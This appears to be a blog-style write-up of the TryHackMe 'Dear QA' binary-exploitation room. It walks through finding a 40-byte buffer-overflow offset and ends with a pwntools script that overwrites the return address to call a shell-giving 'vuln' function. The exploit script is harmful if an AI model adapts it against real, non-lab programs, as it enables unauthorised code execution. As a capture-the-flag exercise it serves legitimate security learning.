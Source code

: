 ```yaml
---
title: "Dear QA - TryHackMe CTF Write-up"
classes: wide
header:
  teaser: assets\images\Binary-Exploitation\Dear-QA-TryHackMe-CTF-Writeup\logo.png
ribbon: red
description: "We try buffer overflow directly, because why not? After checksec we can decide our attacking vector...."
categories:
  - Binary Exploitation
toc: true
---
```


CTF link: 

[Dear QA - Tryhackme](https://tryhackme.com/room/dearqa)

We try buffer overflow directly, because why not? After checksec we can decide our attacking vector.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled.png)

NX disabled, easy one. Just find the offset and execute shellcode or we can check if there a function gives us shell directly.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%201.png)

When we overflow buffer we see that  “aaal” overwritten on return address. Offset is 44-4= 40 because of “aaal” is detected when “l” appears, “l” is located at 44 but “aaal” located at 40.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%202.png)

We found a function gives us shell, our attack vector is “buffer overflow + execute vuln function“

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%203.png)

There is something wrong with this machine, we can execute code we can not get output. Okey we can open reverse shell and use it. But our exploit succeed.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%204.png)

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%205.png)

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './DearQA.DearQA'
binary = context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)
io = start()

exploit = b""
exploit += b"\x90"*40
exploit += p64(binary.sym['vuln'])

io.recvuntil(b"name: ")
io.sendline(exploit)

io.interactive()
```